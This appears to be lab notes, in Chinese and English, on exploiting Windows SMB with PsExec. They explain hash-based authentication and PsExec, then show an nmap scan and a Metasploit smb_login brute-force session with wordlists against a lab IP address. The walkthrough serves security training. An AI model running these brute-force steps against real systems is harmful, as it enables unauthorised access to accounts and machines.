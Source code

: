* Authentication Request（身份验证请求）
* Encrypt string with user's hash（用用户的哈希加密字符串）
* Encrypted string（加密字符串）
* Access Granted（授予访问权限）

## PsExec
PsExec 是由 Microsoft 开发的轻量级远程登录替代品，它允许您使用任何用户的凭据在远程 Windows 系统上执行进程。

PsExec 身份验证通过 SMB 执行。

我们可以使用 PsExec 实用程序合法地对目标系统进行身份验证并运行任意命令或启动远程命令提示符。

它与 RDP 非常相似，但不是通过 GUI 控制远程系统，而是通过 CMD 发送命令。

## 使用 PsExec 进行 SMB 利用
为了利用 PsExec 访问 Windows 目标，我们需要识别合法用户帐户及其各自的密码或密码哈希。

这可以通过利用各种工具和技术来完成，但是，最常见的技术将涉及执行 SMB 登录暴力攻击。

我们可以将暴力攻击范围缩小到仅包括常见的 Windows 用户帐户，例如：

* Administrator

在我们获得合法的用户帐户和密码后，我们可以使用凭据通过 PsExec 与目标系统进行身份验证，并执行任意系统命令或获取反向 shell。

# Demo: Exploiting SMB With PsExec（演示：使用 PsExec 利用 SMB）
```
Target IP Address: 10.2.24.221
```

`Message signing enabled but not required`, we can authenticate with the system via PsExec.

```
nmap -sV -sC 10.2.24.221
```

Next step, perform SMB Brute Force.

[SMB Login Check Scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login/)

该模块将在一系列机器上测试 SMB 登录并报告成功登录。如果您已加载数据库插件并连接到数据库，此模块将记录成功的登录和主机，以便您可以跟踪您的访问。

It's auxiliary model, which means used for information gathering or for brute forcing.

`SMBDomain .`: If the target system is a part of domain. In this case, the target system is not a part of domain.

`VERBOSE false`: Only display the successful authentication attempts. The credential that has been successfully been authenticated via SMB on the target system.

```
service postgresql start && msfconsole

msf5 > search smb_login
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.2.24.221
msf5 auxiliary(scanner/smb/smb_login) > show options
msf5 auxiliary(scanner/smb/smb_login) > set VERBOSE false
msf5 auxiliary(scanner/smb/smb_login) > run
```
